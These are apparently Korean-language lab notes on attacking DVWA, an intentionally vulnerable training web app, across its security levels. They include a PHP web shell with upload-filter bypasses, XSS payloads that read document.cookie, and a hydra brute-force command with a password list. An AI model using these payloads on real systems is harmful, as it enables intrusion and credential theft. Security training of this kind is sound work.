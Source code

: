 
IP : 192.168.56.110

# DVWA(File Upload)
## security : low
jpg 파일 업로드 가능
../../hackable/uploads/m2ashell.php.jpg
php 파일 업로드 가능
cp /var/www/html/rfi.txt /home/kali/fu.php
vi /home/kali/fu.php
	`<pre>`
	`<?php`
	`system($_GET['cmd']);`
	`?>`
	`</pre>`
fu.php 파일 업로드
http://192.168.56.150/hackable/uploads/fu.php?cmd=id
	가능
## security : medium
jpg 파일 업로드 가능 / php 파일 업로드 불가능
cp /home/kali/fu.php /home/kali/fu.php.jpg
fu.php.jpg 업로드할 때 burp suite로 intercept
	filename="fu.php"로 변경
	forward
	업로드 완료
## security : high
확장자뿐만 아니라 size도 확인
실제 이미지 다운
jpeg으로 저장
exiftool /home/kali/Downloads/cat.jpeg
`exiftool -w ~:<?php system('id'); ?>
## security : impossible
type까지 확인

# DVWA(Insecure CAPTCHA)
API 인증키를 등록

# DVWA(XSS(Reflected))
## security : low
`<script>alert(document.cookie)</script>
## security : medium
`<SCRIPT>alert("hack")</SCRIPT>
## security : high
`'/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', ''
	대소문자 모두 공백으로 대체
	`<img src=x onerror=alert(document.cookie)>
## security : impossible
`<img src=x onerror=alert(document.cookie)>
	Hello `<img src=x onerror=alert(document.cookie)>
htmlspecialchars : 특수문자를 치환하여 일반문자로 취급
	< : &lt;
	> : &gt;
	
# DVWA(XSS(Stored))
## security : low
f12 -> Inspector
	maxlength 삭제
Name : `<script>alert("Hack")</script>
	`<img src=x onerror=alert(document.cookie)>
Message : `<script>alert(document.cookie)</script>
	`<svg onload=alert('XSS TEST')>
	`<body topmargin=0 leftmargin=0 onload="document.body.innerHTML='<iframe width=100% height=800 src=www.daum.net/></iframe>',">
		인터넷이 된다면 외부의 웹사이트 출력 가능
## security : medium
`<script>alert('Test')</script>
	안됨
페이지 소스
	name : `<script> 대체
Name : `<img src=x onerror=alert(document.cookie)>
Message :`<svg onload=alert('SVG_Test')>
## security : high
Name : `<img src=x onerror=alert(document.cookie)>
페이지 소스
	`'/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', ''
## security : impossible
토큰 사용
입력에 대해 검증

# DVWA(Brute Force)
무작위 대입
vi weakuser.txt
	root
	spring
	winter
	dragon
	admin
	administrator
hydra 192.168.56.150 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=low;PHPSESSID=쿠키값:Username and/or password incorrect." -L weakuser.txt -P weakpass.txt
